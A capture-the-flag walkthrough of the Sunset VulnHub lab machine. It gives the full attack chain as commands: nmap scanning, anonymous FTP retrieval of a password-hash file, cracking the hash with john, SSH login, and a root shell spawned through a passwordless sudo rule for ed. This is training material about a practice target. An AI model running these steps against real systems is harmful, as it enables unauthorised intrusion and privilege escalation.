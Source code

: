 # Sunset — VulnHub Walkthrough

> **Machine:** [Sunset (VulnHub)](https://www.vulnhub.com/entry/sunset-1,339/)
> **Author:** Whitecr0wz
> **Difficulty:** medium
> **Tested on:** Linux - 13/09/2025

---


Completed the **Sunset** vulnerable machine. In this machine, our target is to find the flags and access the root. So, let’s get started.


---

## Table of contents

1. Environment
2. Summary of steps
3. Detailed walkthrough

   * 3.1 Scanning
   * 3.2 Enumeration
   * 3.3 Exploitation & Privilege escalation
4. Screenshots (findings)
5. Proof of access
6. Appendix: commands & tools
7. Responsible disclosure

---

## 1) Environment

* VM: VirtualBox
* Attacker OS: Kali Linux
* Target IP used in this writeup: 192.168.29.242
* Tools used: `netdiscover`, `nmap`.

---

## 2) Summary of steps

1. Execute netdiscover command to identify the host ip.
2. Full TCP port scan with `nmap` to identify services.
3. Found anonymous login allowed on ftp.
4. Got the hashed credentials from ftp login.
5. Local enumeration (`sudo -l`, SUID/cron checks, file permissions) revealed a privilege escalation path to root.

---

## 3) Detailed walkthrough

### 3.1 Initial enumeration

A short ARP discovery confirmed the target host on the local network.

> See screenshot: ![Screenshot](assets/2.png) (ARP scan output).

**Port scan (command used):**

```bash
nmap -A 192.168.29.242
```

Important open services observed from the scan:

* `21/tcp` — FTP (pyftpdlib 1.5.5) — **anonymous FTP login allowed**
* `22/tcp` — SSH (OpenSSH 7.9p1)

> See screenshot: [assets/3.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/3.png) (nmap output showing FTP/SSH and anonymous FTP file listing).

### 3.2 Retrieving useful files from FTP

Because anonymous FTP was allowed, I listed and downloaded files from the FTP root. The directory listing showed a file named `backup` (owned by root) which I downloaded for inspection.

> See screenshot (partial FTP listing included in nmap output): [assets/4.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/4.png).

After saving `backup` locally, I inspected it and found a password hash (sha512crypt) for the `sunset` user. I moved that hash into a wordlist file for cracking.

### 3.3 Cracking credentials & gaining a shell

I used `john` (with default wordlists/rules) to crack the discovered SHA512 password hash.

```bash
john crack
```

`john` successfully cracked the password: **cheer14**.

> See screenshot: [assets/6.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/6.png) (john output showing cracked password).

With the cracked credentials I SSH'd into the machine:

```bash
ssh sunset@192.168.29.242
# password: cheer14
```

This gave an interactive shell as user `sunset`.

> See screenshot: [assets/7.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/7.png) (VM / login prompt and later shell activity).

### 3.4 Privilege escalation

On the obtained low-priv shell I ran standard enumeration commands. `sudo -l` revealed that the `sunset` user can run `/usr/bin/ed` as root **without a password**.

```bash
sudo -l
# (root) NOPASSWD: /usr/bin/ed
```

> See screenshot: [assets/8.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/8.png) (sudo -l output snippet).

`ed` is an editor that can be abused to spawn a root shell when executed with elevated privileges. Using a known technique with `ed` I spawned a root shell and read the root flag.

**Sanitized exploitation example (do not run on systems you do not own):**

```bash
# From sunset user's shell
sudo /usr/bin/ed -
# within ed, invoke shell
!sh
# now running a shell as root
whoami  # -> root
cat /root/root.txt
```

---

## 4) Screenshots (findings) (findings)

1. [assets/1.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/1.png) — sunset machine.
2. [assets/2.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/2.png) — netdiscover scanning.
3. [assets/3.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/3.png) — important nmap results (open ports/services).
4. [assets/4.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/4.png) — ftp login.
5. [assets/5.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/5.png) — hashed credential file.
6. [assets/6.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/6.png) — crack hashed credential.
7. [assets/7.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/7.png) — ssh login.
8. [assets/8.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/8.png) — sudoers permission.
9. [assets/8.png](https://github.com/Sparshagarwal0110/Sunset-VulnHub-Walkthrough/blob/main/assets/8.png) — gaining root privilege.

---

## 5) Proof of access

I captured the user and root flags during the assessment.

```bash
# User flag
cat /home/sunset/user.txt

# Root flag
cat /root/flag.txt
```

---

## 6) Appendix: commands & tools

* `sudo netdiscover`
* `nmap 192.168.29.242 -A`
* `ftp anonymous@192.168.29.242`
* `john crack`
* `ssh sunset@192.168.29.242`
* `sudo -l`
* `sudo usr/bin/ed`

---

## 7) Responsible disclosure

This walkthrough is for educational purposes. Do not use these techniques on systems you do not own or have explicit permission to test. If you believe you have discovered a vulnerability on a real service, follow responsible disclosure procedures with the service owner.
